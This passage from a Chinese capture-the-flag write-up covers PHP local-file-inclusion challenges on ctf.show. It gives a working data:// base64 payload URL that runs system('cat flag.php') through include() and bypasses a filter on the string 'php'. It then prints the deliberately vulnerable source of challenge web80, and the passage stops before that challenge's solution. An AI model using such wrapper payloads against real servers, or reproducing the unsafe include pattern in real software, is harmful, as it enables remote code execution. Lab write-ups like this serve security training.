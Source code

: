 上述代码的意思大概就是，我们得到的$file变量，要先将php替换为？？？再进行执行，那么我们读取文件就不能用php://filter和php://input这两个了，我们可以使用data://去通过include去执行我们输入的php片段，这个php片段可以直接查看flag.php代码。

```url
http://928e3ddc-0ea1-404a-a9d9-fb53aface656.challenge.ctf.show/?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==
```

得到最后的flag。

<figure><img src="../.gitbook/assets/image (34) (1).png" alt=""><figcaption></figcaption></figure>

## <mark style="color:purple;background-color:green;">（3）web80</mark>

```php
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:26:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
} 
```
